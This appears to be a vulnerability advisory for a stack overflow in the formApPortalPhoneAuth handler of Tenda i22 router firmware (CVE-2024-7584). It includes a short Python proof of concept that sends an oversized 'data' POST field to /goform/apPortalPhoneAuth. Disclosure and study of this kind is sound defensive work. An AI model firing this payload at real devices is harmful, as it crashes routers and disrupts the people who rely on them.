 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalPhoneAuth` function. This function accepts the `data` parameter from a POST request. The parameter is later copied by `strcpy` or `sprintf` to a variable on the stack (`v19` ) , causing a stack overflow.

![image1](image/1.png)

![2](image/2.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalPhoneAuth"
payload = b"a"*2000

data = {
    "data": payload
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)

## CVE

CVE-2024-7584